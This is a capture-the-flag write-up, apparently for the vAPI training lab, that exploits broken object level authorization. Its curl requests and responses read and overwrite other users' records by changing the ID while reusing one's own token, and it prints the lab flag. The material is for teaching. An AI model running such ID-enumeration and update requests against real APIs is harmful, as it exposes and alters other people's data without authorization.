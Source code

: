 > You can register yourself as a User , Thats it ....or is there something more?

Note: Insecure Direct Object Reference (IDOR) and Broken Object Level Authorization (BOLA) are the same findings under a different name.

# Tools Used:
```
curl 8.8.0 (x86_64-pc-linux-gnu)
base64 (GNU coreutils) 9.4
echo (GNU coreutils) 9.4
```

# Create User
## POST /vapi/api1/user

Create a user.
```bash
curl --path-as-is -i -s -k -X $'POST' \
    -H $'Content-Type: application/json' -H $'Accept: application/json' -H $'Host: localhost' \
    --data-binary $'{\x0d\x0a    \"username\": \"testuser1\",\x0d\x0a    \"name\": \"testname1\",\x0d\x0a    \"course\": \"testcourse1\",\x0d\x0a    \"password\": \"testpass1\"\x0d\x0a}' \
    $'http://localhost/vapi/api1/user'
```

A "201 Created" response should be received after sending the request.
```http
HTTP/1.1 201 Created
Host: localhost
Date: Tue, 25 Jun 2024 18:59:40 GMT
Connection: close
X-Powered-By: PHP/7.4.33
Cache-Control: no-cache, private
Date: Tue, 25 Jun 2024 18:59:40 GMT
Content-Type: application/json

{"username":"testuser1","name":"testname1","course":"testcourse1","id":16}
```

As specified in the Postman Collection, the test script to be executed for the API1 Create User endpoint is used to derive the User ID (id) and the Authentication Token (Authorization-Token) to be updated in the Postman Environment as api1_id and api1_auth respectively.
```js
var jsonData = JSON.parse(responseBody);
var api1_id = jsonData.id;
console.log("API 1 User ID : "+api1_id);
postman.setEnvironmentVariable("api1_id",api1_id);
var reqData = JSON.parse(request.data);
var api1_username=reqData.username;
var api1_password=reqData.password;
var api1_auth=btoa(api1_username+":"+api1_password);
console.log("API 1 Auth : "+api1_auth);
postman.setEnvironmentVariable("api1_auth",api1_auth);
```

We can derive the User ID (id) of our newly created user from the response:
```
16
```

We can derive the Authentication Token (Authorization-Token) of our newly created user:
```bash
echo -n "testuser1:testpass1" | base64
```
```
dGVzdHVzZXIxOnRlc3RwYXNzMQ==
```
- We will need this Authentication Token for the "Get User" endpoint

# Get User
## GET /vapi/api1/user/{api1_id}

Get information of our newly created user, using our own User ID and our own Authorization Token
```bash
curl --path-as-is -i -s -k -X $'GET' \
    -H $'Authorization-Token: dGVzdHVzZXIxOnRlc3RwYXNzMQ==' -H $'Host: localhost' \
    $'http://localhost/vapi/api1/user/16'
```
```http
HTTP/1.1 200 OK
Host: localhost
Date: Tue, 25 Jun 2024 19:40:27 GMT
Connection: close
X-Powered-By: PHP/7.4.33
Cache-Control: no-cache, private
Date: Tue, 25 Jun 2024 19:40:27 GMT
Content-Type: application/json

{"id":16,"username":"testuser1","name":"testname1","course":"testcourse1"}
```

Lets attempt to check if we can access information of other users, using other User IDs, while using our own Authorization Token
```bash
curl --path-as-is -i -s -k -X $'GET' \
    -H $'Authorization-Token: dGVzdHVzZXIxOnRlc3RwYXNzMQ==' -H $'Host: localhost' \
    $'http://localhost/vapi/api1/user/2'
```
```http
HTTP/1.1 200 OK
Host: localhost
Date: Tue, 25 Jun 2024 19:43:34 GMT
Connection: close
X-Powered-By: PHP/7.4.33
Cache-Control: no-cache, private
Date: Tue, 25 Jun 2024 19:43:34 GMT
Content-Type: application/json

{"id":2,"username":"meredithp","name":"Meredith Palmer","course":"The Subtle art of not giving a F***"}
```

Seems like we are able to access other user's data with our own Authorization Token. This is not supposed to happen, and shows that Broken Object Level Authorization (BOLA) exists.

After enumerating, we find the flag with an User ID of 1:
```bash
curl --path-as-is -i -s -k -X $'GET' \
    -H $'Authorization-Token: dGVzdHVzZXIxOnRlc3RwYXNzMQ==' -H $'Host: localhost' \
    $'http://localhost/vapi/api1/user/1'
```
```http
HTTP/1.1 200 OK
Host: localhost
Date: Tue, 25 Jun 2024 19:46:18 GMT
Connection: close
X-Powered-By: PHP/7.4.33
Cache-Control: no-cache, private
Date: Tue, 25 Jun 2024 19:46:18 GMT
Content-Type: application/json

{"id":1,"username":"michaels","name":"Michael Scott","course":"flag{api1_d0cd9be2324cc237235b}"}
```

API1 Flag
```
flag{api1_d0cd9be2324cc237235b}
```

# Update User
## PUT /vapi/api1/user/{api1_id}

It seems like we can also access information of other users, using other User IDs, while using our own Authorization Token with the Update User endpoint.
```bash
curl --path-as-is -i -s -k -X $'PUT' \
    -H $'Authorization-Token: dGVzdHVzZXIxOnRlc3RwYXNzMQ==' -H $'Host: localhost' \
    $'http://localhost/vapi/api1/user/4'
```
```http
HTTP/1.1 200 OK
Host: localhost
Date: Tue, 25 Jun 2024 19:55:28 GMT
Connection: close
X-Powered-By: PHP/7.4.33
Cache-Control: no-cache, private
Date: Tue, 25 Jun 2024 19:55:28 GMT
Content-Type: application/json

{"id":4,"username":"jimhalp","name":"Jim Halpert","course":"Art of Pranks"}
```

Data of other users can be updated while using our own Authorization Token.
```
curl --path-as-is -i -s -k -X $'PUT' \
    -H $'Authorization-Token: dGVzdHVzZXIxOnRlc3RwYXNzMQ==' -H $'Host: localhost' -H $'Content-Type: application/json' \
    --data-binary $'{\x0d\x0a  \"username\": \"updated_user\",\x0d\x0a  \"name\": \"updated_name\",\x0d\x0a  \"course\": \"updated_course\",\x0d\x0a  \"password\": \"updated_pass\"\x0d\x0a}' \
    $'http://localhost/vapi/api1/user/4'
```
```http
HTTP/1.1 200 OK
Host: localhost
Date: Tue, 25 Jun 2024 19:59:24 GMT
Connection: close
X-Powered-By: PHP/7.4.33
Cache-Control: no-cache, private
Date: Tue, 25 Jun 2024 19:59:24 GMT
Content-Type: application/json

{"id":4,"username":"updated_user","name":"updated_name","course":"updated_course"}
```
- Observe that the User ID of "4" used to have the name "Jim Halpert" but has been updated to "updated_name".

References:
https://www.traceable.ai/blog-post/a-deep-dive-on-the-most-critical-api-vulnerability-bola-broken-object-level-authorization
https://owasp.org/API-Security/editions/2023/en/0xa1-broken-object-level-authorization/
https://owasp.org/API-Security/editions/2019/en/0xa1-broken-object-level-authorization/